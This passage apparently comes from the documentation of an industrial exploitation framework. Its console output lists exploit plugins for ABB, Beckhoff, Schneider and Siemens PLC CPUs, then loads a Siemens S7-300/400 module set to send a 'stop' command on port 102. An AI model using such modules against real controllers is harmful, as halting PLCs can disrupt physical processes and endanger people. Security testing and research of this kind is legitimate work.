 ## show

Display module:

    isf > show

    Plugin Categories
    =================

      Category     Active Plugin
      --------     -------------
      Exploit      None
      Payload      None
      Special      None
      Touch        None

    isf > show Exploit

    Plugin Category: Exploit
    ========================

      Name                            Version
      ----                            -------
      ABB_CPU_Command                 1.1.0
      Beckhoff_CX9020_CPU_Control     1.1.0
      Schneider_CPU_Command           1.1.0
      Siemens_1200_CPU_Control        1.1.0
      Siemens_300_400_CPU_Control     1.1.0

    isf >

## use

Pick the module:

    isf > use Siemens_300_400_CPU_Control

    [!] Entering Plugin Context :: Siemens_300_400_CPU_Control
    [*] Applying Global Variables

    [*] Applying Session Parameters
    [*] Running Exploit Touches


    [!] Enter Prompt Mode :: Siemens_300_400_CPU_Control

    Module: Siemens_300_400_CPU_Control
    ===================================

      Name            Value
      ----            -----
      TargetIp
      TargetPort      102
      Slot            3
      Command         stop

    [!] plugin variables are valid
    [?] Prompt For Variable Settings? [Yes] :
